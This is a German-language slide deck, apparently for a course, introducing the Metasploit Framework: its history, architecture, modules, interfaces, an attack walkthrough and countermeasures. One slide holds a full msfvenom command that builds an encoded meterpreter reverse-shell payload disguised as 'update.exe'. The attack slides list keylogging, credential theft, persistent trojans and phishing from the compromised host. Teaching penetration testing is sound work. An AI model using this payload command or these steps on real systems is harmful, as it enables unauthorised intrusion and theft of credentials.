

background-image: url(pictures/metaploit_startscreen.png) class: center, middle --- layout: true # .center[Agenda] --- 1.0 Einführung in Metasploit - Was ist das Metasploit Framework? - Entwicklung von Metasploit 2.0 Theoretische Hintergrund zu Metasploit - Was ist ein Vulnerability Scanner? - Was ist Penetration-Testing überhaupt? - Metasploit Architecture 3.0 Toolbeschreibung - Was leistet Metasploit? - Wie wendet man Metasploit an? - Beispiele --- 4.0 Ausnutzbare Schwachstellen mit Metasploit - Welche Angriffsvektoren ermöglicht Metasploit? - Bekannte Schwachstellen? 5.0 Angriffsbeschreibung - Wie verläuft ein Angriff, welche Tools werden üblicherweise Verwendet? - Beispiele 6.0 Vorführung - VM Machine Hack / Metasploitable3 7.0 Gegenmaßnahmen und ihre Wirksamkeit 8.0 Links --- layout: false ## .center[Einführung ins Metasploit Framework] ### Was ist das Metasploit Framework(MSF)? - Metasploit ist ein Open-Source Projekt - Metasploit Framework ist ein Teilprojekt davon - ist ein Vulnerability Scanner, der: - Informationen über Sicherheitslücken bietet - beim Penetration-Testing und bei der Entwicklung von IDS-Signaturen¹ eingesetzt wird - die nötige Infrastruktur für Tasks liefert - darunter Fallen Exploits, Payloads, Encoders, etc. - diese können mit Angriffsvektoren erweitert werden .footnote[¹ IDS = Intrusion Detection System] --- layout:true ## .center[Einführung ins Metasploit Framework] ### Entwicklung von Metasploit --- - erfunden und entwickelt von H.D. Moore .center[Jahr] | .center[Version] | .center[Umfang] | .center[Beschreibung] ---- | ---- | ---- | ---- .center[2003] | .center[1.0] | .center[11 Exploits] | Perl-basiert .center[2004] | .center[2.0] | .center[19 Exploits, 27Payloads] | Zusammenarbeit mit Spoonm .center[2006] | .center[3.0] | .center[177 Exploits, 104Payloads] | - .center[2007] | .center[-] | .center[-] | Überarbeitung und Neuaufsetzung mit Ruby --- .center[Jahr] | .center[Version] | .center[Umfang] | .center[Beschreibung] ---- | ---- | ---- | ---- .center[2009] | .center[-] | .center[-] | Übernahme des Projekts durch Rapid7 .center[2010] | .center[-] | .center[-] | Metasploit Express/Pro werden dem Repertoire hinzugefügt .center[2011] | .center[4.0] | .center[1673 Exploits, 438 Payloads] | .center[-] .center[2018] | .center[4.16] | .center[1749 Exploits, 536 Payloads] | Aktueller Stand --- - Metasploit Express zielt auf Security-Teams, die Sicherheitslücken verifizieren, ab und bietet: - eine automatisierte Beweissammlung - die Benutzung von Brute Force - Nmap Integration - benutzerfreundliche GUI - Metasploit Pro fokusiert sich auf Pen-Tester und IT-Security Teams und bietet: - Schnellstart Wizards/MetaModules - erstellen und managen von Social Engineering Aktionen - Web Application Testing, erweiterte Pro Console, dynamische Payloads, Nexpose, VPN pivoting --- layout: true ## .center[Theoretische Hintergrund zu Metasploit] ### Was ist ein Vulnerability Scanner? --- - automatisiertes Tool um Sicherheitslücken zu identifizieren - werden benutzt um Out-Of-Date Systeme oder potenzielle Exploits zu entdecken - spielen große Rolle im Penetration Testing(z.B. Integritätstest) - nimmt Fingerabdruck des Ziel-OSs(Version, Type) und der laufenden Anwendungen(SMB, Tomcat, Glassfish, etc.) - kann Checks durchführen, um Schwachstellen zu entdecken, z.B. für: - offene Ports - Shares - veraltete oder unsichere Dienste - Passwort- und Benutzerrichtlinien - False-Positives lassen sich dabei nicht ausschließen --- layout: false ## .center[Theoretische Hintergrund zu Metasploit] ### Was ist Penetration-Testing überhaupt? - zu erst: Penetration-Testing ≠ Vulnerability-Scanning - Schwachstellen werden ausgenutzt - mögliche unauthorisierte Zugriffe oder andere schadhafte Aktivitäten bestimmt - Penetration Testing umfasst: - Network Penetration Testing - Application Security Testing - Sicherheitstests für Steuerungen und Prozesse in den Netzwerken und Anwendungen - wird von außerhalb und innerhalb durchgeführt --- class: center, middle ## .center[Theoretische Hintergrund zu Metasploit] ### Metasploit Architecture  --- layout: true ## .center[Theoretische Hintergrund zu Metasploit] ### Metasploit Architecture - Filesystem --- - intuitiv angelegt - findet sich in **/usr/share/metasploit-framework/** wieder - documentation: - Dokumentationen für das Framework <img src="pictures/Documentation.png" height="100%" width="100%"> - lib: - das Essenzielle des Frameworks <img src="pictures/Lib.png" height="100%" width="100%"> --- - modules: - MSF Module für Exploits, Auxiliary, Posts, Payloads, Encoders und NOP-Generatoren - plugins: - Plugins für Metasploit <img src="pictures/Plugins.png" height="78%" width="78%"> --- - scripts: - Meterpreter und andere Scripts - Meterpreter ist der wichtigste dynamische Payload: - kurz für **Meta-Interpreter** - funktioniert mit dll-Injection - liegt komplett im Speicher des Remote-Hosts - tools: - Command-Line Utilities <img src="pictures/Tools.png" height="100%" width="100%"> --- layout: false ## .center[Theoretische Hintergrund zu Metasploit] ### Metasploit Architecture - Libraries - erlauben es Exploits auszuführen, z.B. für HTTP-Requests oder das Encoding von Payloads - einige der wichtigsten Libraries sind: - Rex: - basis Library für die meisten Aufgaben - behandelt Sockets, Protokolle, Textumwandlungen, etc. - SSL, SMB, HTTP, XOR, Base64, Unicode - Msf::Core: - stellt die "basis" API - definiert das Metasploit Framework - Msf::Base: - stellt die "freundliche" API - stellt vereinfachte APIs für die Benutzung im Framework --- layout: true ## .center[Theoretische Hintergrund zu Metasploit] ### Metasploit Architecture - Modules und Locations --- - die Interaktionen mit Metasploit werden hauptsächlich über Module geführt - diese sind in zwei Directories gespeichert: - primäre Module in **/usr/share/metasploit-framework/modules/** - benutzerdefinierte Module in **~/.msf4/modules/** - alle Metasploitmodule sind in unterschiedlichen Directories organisiert --- - Exploits: - Module, die Payloads benutzen <img src="pictures/Exploits.png" height="100%" width="100%"> - Auxiliary: - Module für Port Scanner, Fuzzers, Sniffers, etc. - z.B. Nmap: - scannen und auswerten von Hosts in einem Netzwerk - führt ARP Sweep durch --- - Payloads: - Code der per Remote ausgeführt wird <img src="pictures/Payloads.png" height="100%" width="100%"> - Singels: - stand-alone Payload - Stagers: - baut Netzwerk-Verbindung auf - Stages: - Payload-komponente - liefert erweiterte Features(z.B. Meterpreter) --- - Encoders: - stellt sicher, dass Payloads vollständig ankommen <img src="pictures/Encoders.png" height="100%" width="100%"> - NOPs: - hält Größe von Payloads konsistent <img src="pictures/Nops.png" height="100%" width="100%"> --- layout: true ## .center[Theoretische Hintergrund zu Metasploit] ### Metasploit Architecture - Mixins und Plugins --- - Metasploit Mixins: - können neue Features mitbringen - erlaubt Module mit verschiedenen Spezifizierungen - Protokol-spezifisch(HTTP, SMB) - Verhaltens-spezifisch(Brute Force) - können das Verhalten der Module ändern(Methoden überladen) --- - Metasploit Plugins: - arbeiten direkt mit der API - manipulieren das Framework als Ganzes - haken sich dabei in das Event Subsystem ein - sie erweitern die gesamte Funktionalität des Frameworks - automatisieren Tasks, die manuell aufwendig sind - können nur in der msfconsole verwendet werden(neue Commands) --- layout: true ## .center[Theoretische Hintergrund zu Metasploit] ### Metasploit Architecture - UI --- - MSFconsole: - zentrailisiertes, konsolen-basiertes Interface - stabilste MSF Interface - einziger Weg um Zugriff auf nahezu alle Optionen zu bekommen - Readline Support, Command-Vervollständigung - ausführen von externen Commands ist möglich --- - Armitage: - skriptfähiges Team-Collaborations Tool - sie erweitern die gesamte Funktionalität des Frameworks - visualisiert Ziele - empfiehlt Exploits - bringt erweiterte Post-Exploitation-Funktionen mit - ermöglicht das Benutzen von gleichen Sitzungen - Teilen des Hosts, erfasster Daten und heruntergeladener Dateien - erhöht die Effektivität von Red Teams --- layout: false ## .center[Toolbeschreibung] - Information Gathering - ARP Sweep -> Zielhost IP-Adressen finden - Port Scanning -> Offene Ports? - Service Identification -> Welche Dienste stehen hinter dem Port? - Password Sniffing -> kann IMAP/FTP und HTTP GET Login abfangen - SNMP sweeping -> Managed Networkelements finden - Vulnerability Scanning mit Metasploit (auxiliary/scanner/) - smb_login -> Filesystem Zugriff bei Windows - VNC Scanner -> Dienstscanner - WMAP Web Scanner -> Portscanner für WebApps - NeXpose -> Vulnerability Management / Analyse-Tool - Nessus -> Portscanner / Dictionary-Attack --- ## .center[Toolbeschreibung] - MSFvenom: Custom Payload Erstellung - Payload reverse_tcp - LHOST und LPORT definieren - Filetyp exe -f - Platform Windows - Architektur x86 - Encoder -e x86/shikata_ga_nai - Iterationen 10 - ">" Ausgabepfad ```cli msfvenom --payload windows/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=8080 -f exe --platform windows --arch x86 -e x86/shikata_ga_nai -i 10 > /var/www/html/update.exe ``` - Using Exploits - use exploit/* - show targets, payloads, options - set payload, Hosts, Ports, Username, Userpassword - exploit -> zum Starten des Services --- ## .center[Toolbeschreibung - Armitage] .center[] --- ## .center[Toolbeschreibung - Armitage] .center[] --- ## .center[Toolbeschreibung - Armitage] .center[<img src="pictures/armitage_psexec_exploit.png" height="85%" width="85%">] --- ## .center[Toolbeschreibung - Armitage] .center[] --- ## .center[Ausnutzbare Schwachstellen mit Metasploit] - Betriebssysteme - Linux - OSX - Android - Windows - Web-Server - GlassFish - Apache Tomcat - Wordpress - Ruby on Rails - Software - Jenkins - MySQL - Betriebssystem Dienste & Anwendungen - Internet Information Service(IIS) - PsExec - SSH - RDP --- ## .center[Angriffsbeschreibung - msfconsole] ### Angriff mit msfconsole wird Vorgeführt 1. ARP Sweep zum Finden von Zielen - Link Layer: Address Resolution Protocol 2. Port Scanning zum Finden offener Ports - Transport Layer: TCP/UDP 3. Exploit laden - Exploit passend zum offenen Port+Service 4. Exploit mit `set` konfigurieren und ausführen - set RHOST, RPORT - reverse TCP: set LHOST, LPORT 5. Angriff mit Meterpreter fortführen - z.B. Upload Payload im Autostart Verzeichnis - Keylogger ausführen - Zugangsdaten auslesen --- ## .center[Angriffsbeschreibung - Armitage] ### Angriff mit Armitage wird Vorgeführt 1. NMAP Scan - IP Range auf 192.168.56.0/24 um Ziele zu finden 2. NMAP Quick-Scan mit Ziel IP - Zielhost OS ermitteln - Offene Ports inklusive Dienst ermitteln 3. Find Attacks um Auswahl der Exploits einzuschränken 4. Login, exploit und Loot sammeln - Wenn möglich eigene Berechtigungen erhöhen - Keylogger installieren - Persistenten Trojaner installieren 5. Angriff erweitern - Mit dem Loot weitere Schwachstellen identifizeren - Fishing Mail vom Ziel aus verschicken - Payloads auf WebServer verstecken --- ## .center[Vorführung] --- ## .center[Gegenmaßnahmen und ihre Wirksamkeit] .left[Gegenmaßnahme] | Wirksamkeit¹ ------------- | ----------- Reparaturmöglichkeit für Dienste, für die Metasploit Payloads besitzt | .center[1] System sollte aktualisierbar sein für Patches und Sicherheits-Upgrades | .center[2] Angriffsskripte evaluieren/analysieren und Defensivskripte erstellen(z.B. bei 0-Day-Exploits) | .center[3] Defensivskripte einem IDS hinzufügen | .center[4] IDS zu IPS² erweitern | .center[5] System vom Internet trennen ¯\\\_(ツ)\_/¯ | .center[42] .footnote[¹ Wirksamkeit: 1(sehr gering)-5(sehr hoch)] .footnote[² IPS: Intrusion Prevention System] --- ## .center[Links] - Wikipedia Artikel zu <a href="https://en.wikipedia.org/wiki/Metasploit_Project" target="_blank">Metasploit</a></br></br> - <a href="https://www.metasploit.com/" target="_blank">Metasploit Framework</a></br></br> - <a href="https://infosecaddicts.com/whats-metasploit/" target="_blank">What is Metasploit</a></br></br> - <a href="https://docs.kali.org/general-use/starting-metasploit-framework-in-kali" target="_blank">Metasploit Framework with Kali</a></br></br> - <a href="https://null-byte.wonderhowto.com/how-to/metasploit-basics/" target="_blank">Metasploit Basics</a></br></br> - <a href="https://jonathansblog.co.uk/metasploit-tutorial-for-beginners" target="_blank">Metasploit Beginners Tutorial</a></br></br> - Free <a href="https://www.offensive-security.com/metasploit-unleashed/" target="_blank">Metasploit Ethical Hacking Course</a> by OffensiveSecurity</br></br> - <a href="https://www.blackmoreops.com/2015/11/03/how-to-search-exploits-in-metasploit/" target="_blank">How to search exploits</a> --- class: middle, center background-position: top ## .center[Vielen Dank! Fragen?]